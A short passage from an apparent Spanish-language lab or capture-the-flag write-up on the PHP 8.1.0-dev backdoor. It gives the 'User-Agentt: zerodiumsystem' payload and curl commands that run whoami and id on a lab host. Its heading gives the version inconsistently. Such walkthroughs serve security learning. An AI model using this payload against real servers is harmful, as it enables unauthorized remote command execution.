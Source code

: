 ## Vulnerability Assessment {-}


### php 4.1.0-dev {-}

Si buscamos en google pro `PHP 8.1.0 exploit` vemos una pagina que habla de User-Agent Remote Code Execution.

La vulnerabilidad aqui reside en poner un User-Agentt con 2 T con un zerodiumsystem command.

```bash
"User-Agent": "Mozilla/5...."
"User-Agentt": "zerodiumsystem('" + COMMANDO + "');"
```

Lo intentamos

```bash
curl -s -X GET http://10.10.10. 242 -H "User-Agentt: zerodiumsystem('whoami');"
#Output 
james
...

curl -s -X GET http://10.10.10. 242 -H "User-Agentt: zerodiumsystem('id');" head -n 1
```
